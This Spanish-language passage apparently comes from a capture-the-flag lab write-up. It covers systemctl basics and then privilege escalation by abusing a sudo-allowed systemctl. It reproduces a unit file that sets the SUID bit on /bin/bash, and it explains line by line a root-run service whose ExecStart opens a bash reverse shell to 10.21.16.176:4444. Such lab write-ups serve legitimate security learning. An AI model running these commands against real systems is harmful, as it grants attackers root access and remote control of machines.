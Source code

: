 ##### Ejemplos

- **Iniciar el servicio de Apache (httpd)**:
```sh
  sudo systemctl start httpd
```

- **Habilitar el servicio de Apache para que se inicie al arrancar**:
 ```sh
  sudo systemctl enable httpd
 ```

- **Ver el estado del servicio de Apache**:
  ```sh
  systemctl status httpd
  ```

##### Beneficios de `systemd` y `systemctl`

- **Arranque y gestión de servicios más rápidos**.
- **Dependencias explícitas entre servicios**.
- **Mejor manejo de la paralelización durante el arranque del sistema**.
- **Registro detallado y centralizado de logs mediante `journald`**.

Para poder aprovecharme de éste binario, seguí las instrucciones que encontré:

```
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```

Estuve bastante tiempo intentando abusar de este binario, por este medio, pero no logre tener éxito. Pero buscando, encontré que se podia crear un archivo de configuración con un Payload y fue lo que hice, es muy similar, pero con ligeras diferencias, así que desde de mi máquina Kali, escribí el siguiente código:

```
nano root.service
```

Para ver el archivo con colores utilice `batcat`:

![](/images/vulnversity/Pasted image 20240702040728.png)

Este archivo tiene la extensión `.service` y describe cómo se debe comportar y gestionar un servicio del sistema. Está escrito en un formato específico de `systemd`, que no es propiamente un lenguaje de programación, sino más bien un formato de configuración.

###### Análisis del Archivo `root.service`
Vamos a desglosar cada parte del archivo:
`[Unit]`
- **Line 2: `Description=root`**
  - Proporciona una descripción breve del servicio. En este caso, simplemente dice "root".
`[Service]`
- **Line 5: `Type=simple`**
  - Indica que el servicio es de tipo "simple", lo que significa que el 0servicio se considera iniciado tan pronto como se inicia el proceso especificado en `ExecStart`.
- **Line 6: `User=root`**
  - Especifica que el servicio se ejecutará como el usuario `root`.
- **Line 7: `ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.21.16.176/4444 0>&1'`**
  - Especifica el comando que se ejecutará cuando se inicie el servicio. En este caso, se ejecuta un comando Bash que abre una conexión inversa (reverse shell) hacia la dirección IP `10.21.16.176` en el puerto `4444`.
 `[Install]`
- **Line 10: `WantedBy=multi-user.target`**